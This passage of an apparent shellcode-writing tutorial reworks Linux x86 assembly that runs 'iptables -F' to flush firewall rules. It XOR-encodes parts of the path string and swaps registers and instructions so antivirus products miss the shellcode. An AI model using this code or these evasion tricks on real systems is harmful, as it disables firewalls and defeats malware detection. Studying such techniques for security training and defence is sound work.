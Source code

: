 Instead of saving the pointer to the string `-F` into the register `ESI`, I'm using the register `EDI`, thus changing the bytes of the shellcode.

Next, I chose to use `push edx` instead of `push eax`, as both these registers are cleared, thus set to `0x00000000`.

Follows the next piece of assembly code to analyse:

```nasm
    ; XOR key ('rbct')
    mov esi, 0x72626374

    ; NULL DWORD acting as the string terminator for
    ;   the path of the executable
    push edx

    push 0x73656c62
    
    push 0x1316131d
    xor [esp], esi

    push 0x2f6e6962

    push 0x014d4c5b
    xor [esp], esi
```

This one differs the most in my opinion, and it's also the reason behind the increment of `11 bytes` compared to the original shellcode.

Given the path of the executable is pushed to the stack in clear-text, an `AntiVirus` product could easily find it, and therefore flag the shellcode as malicious.

Therefore, I decided to make a compromise and XOR two of the most obvious DWORDs:

- `0x61747069` -> "ipta"
- `0x732f2f2f` -> "///s"

One could also XOR the other two DWORDs, based on how many bytes you can add to the shellcode. In this case, the XOR key is the DWORD `0x72626374` (string: `rbct`).

Follows the second-to-last piece of Assembly code:

```nasm
    ; save the pointer to the string into EBX
    push esp
    pop ebx

    ; instead of 'push eax' use 'push edx', as they are both set to 0x0 
    push edx

    push edi
    push ebx
```

Starting from the top, I used the `PUSH-POP` technique, instead of the instruction `mov ebx, esp`, as it changes the resulting bytes, while using the same numer of bytes.
